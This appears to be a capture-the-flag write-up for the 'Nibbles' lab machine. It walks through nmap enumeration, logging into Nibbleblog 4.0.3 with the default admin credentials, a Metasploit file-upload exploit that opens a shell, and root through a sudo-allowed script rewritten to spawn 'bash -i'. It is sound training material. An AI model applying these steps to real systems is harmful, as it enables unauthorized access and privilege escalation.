 # Nibbles

This is the write-up for the machine called Nibbles.

## Scanning & Enumeration

Let's start with an nmap scan:

```markdown
nmap -T4 -A -p- 10.10.10.75
```

Relevant results of the scan:

```markdown
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## HTTP

The machine is a Linux machine with HTTP port 80 open.
There is a web page that says **"Hello World"** and if we inspect element (Ctrl-Shift-I) we can see a comment in the source code:

```markdown
<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

Type in **10.10.10.75/nibbleblog** and it shows us a blog page that is **"Powered by Nibbleblog"**.
After a little bit of googling, we find that [Nibbleblog](https://github.com/dignajar/nibbleblog) is an open-source CMS that works with PHP.

If we scroll down to the bottom we see the version 4.0.3 for the Nibbeblog.

## Arbitrary File Upload exploit

We can use **searchsploit** to find any vulnerabilities for **Nibbleblog 4.0.3**:

```markdown
searchsploit nibbleblog
```

We find an exploit called **Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)**.
This exploit uploads a malicious PHP file to the "My image" plugin found on the Nibbleblog. We need the login credentials to the administrator page to use this exploit successfully.
We can use credential stuffing using BurpSuite or look up the default credentials on Google. We must limit our requests as this page only allows for a certain number of login attempts.  

The following credentials are found to be valid:

```markdown
Username: admin
Password: nibbles
```
We can load up **Metasploit** and use the module exploit multi/http/nibbleblog_file_upload to exploit the machine.
We will need to set the username as _admin_ and the password as _nibbles_. We configure the RHOSTS and set the targeturi to _/nibbleblog/admin.php_
We can run the exploit and we see that it works as a meterpreter shell opens.
We are user **nibbler** on the machine and we will need to use privilege escalation to gain root access.

## Privilege Escalation to root

We can check the root privileges with **sudo -l** and it displays that the user can run a shell script in the home directory without a password:

```markdown
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

We create the file **monitor.sh** in the directory **/home/nibbler/personal/stuff/** make it executable and start an interactive shell with it:

```markdown
#!/bin/bash
bash -i
```
We make the script executable by typing in:

```markdown
chmod +x monitor.sh
```

We can execute the script after navigating to the **/home/nibbler/personal/stuff/** directory:

```markdown
sudo ./monitor.sh
```

We gain root access to the machine after we run the script.
